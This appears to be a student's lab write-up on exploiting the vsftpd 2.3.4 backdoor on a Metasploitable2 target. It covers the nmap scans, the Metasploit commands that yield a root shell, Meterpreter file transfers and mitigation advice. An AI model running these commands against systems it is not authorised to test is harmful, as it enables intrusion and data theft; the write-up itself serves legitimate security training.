# 🔐 System Hacking – Gaining Access to a Vulnerable Machine

## 🧠 Objective
This ethical hacking project simulates a real-world exploitation scenario where a penetration tester targets a vulnerable system (Metasploitable2) using the Metasploit Framework. The objective is to identify susceptible services, exploit them, gain shell access, escalate privileges, and demonstrate basic post-exploitation actions.

---

## 🛠️ Tools Used

- **Kali Linux**
- **Metasploit Framework**
- **Metasploitable2 (vulnerable target machine)**
- `nmap`, `whoami`, `uname`, `ls`, and other Linux commands

---

## 🛰️ Scanning and Enumeration

**1) General nmap scan (to feel around)**
```bash
nmap <target-IP>
```



**2) Detailed nmap scan to see services and versions**
- Discovered open port: `21/tcp` (FTP)
- Service detected: `vsFTPd 2.3.4` — a known vulnerable service with a backdoor.

```bash
nmap -A -sV <target-IP>
```





---

## 💣 Exploitation Process

**1) Exploit Module Used:**

```
exploit/unix/ftp/vsftpd_234_backdoor
```




**2) Metasploit Commands:**

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST <target-IP>
set RPORT 21
run
```

📍 Successfully spawned a root-level shell:
```
[*] Command shell session 1 opened
```



---

## 🧪 Post-Exploitation

- Verified root access with `whoami` → `root`




- Navigated the file system, listed directories




- Transferred files from attacker to victim using the Meterpreter `upload` command




- Downloaded the victim's files back to Kali using the `download` command




---

## ⚠️ Challenges Faced & Resolutions

| Challenge | Solution |
|----------|----------|
| No internet access in Kali VM | Switched VM network adapter from Host-Only to NAT |
| Metasploit exploit failed to recreate session after closing | Rebooted Metasploitable2 to restart vulnerable FTP service |
| Upload error in normal shell | Upgraded to Meterpreter for advanced file interaction |
| Difficulty identifying active sessions | Used `sessions -i <id>` instead of `sessions` |
| Command confusion between shell and Meterpreter | Ensured proper shell upgrade and command context awareness |

---

## ✅ Result/Outcome

Successfully gained root-level access to the target machine, demonstrated file transfer techniques post-exploitation, and documented how to secure systems against such attacks.

---

## 🛡️ Mitigation Recommendations

To prevent exploitation of similar vulnerabilities in a production environment:

- Always keep services and operating systems updated.
- Replace outdated or unsupported software.
- Disable unnecessary services and ports.
- Use firewalls to control inbound/outbound traffic.
- Enforce least privilege and proper user access controls.
- Regularly scan systems for known vulnerabilities.

---

Date created: 24/04/2025
